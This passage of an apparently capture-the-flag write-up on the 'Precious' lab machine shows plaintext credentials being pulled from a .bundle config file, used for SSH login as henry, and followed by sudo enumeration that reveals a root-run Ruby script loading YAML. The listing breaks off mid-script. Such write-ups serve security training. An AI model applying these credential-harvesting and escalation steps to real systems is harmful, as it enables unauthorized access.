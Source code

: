 `.bundle` is an interesting directory. It's a ruby tool.

```shell
cd .bundle 
ls -la
```

Result:

```text
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Apr 29 16:17 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
```

```shell
cat config
```

Result:

```text
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

### from ruby to henry

Get a shel with `henry` user :

```shell
ssh henry@10.10.11.189
```

Result:

```text
henry@precious:~$ 
```

## Privilege Escalation : get a shell

### Host Reconnaissance

By exploring henry user rights, it appears that he can execute some commands using sudo :

```shell
sudo -l
```

Result:

```text
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This ruby script :

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
```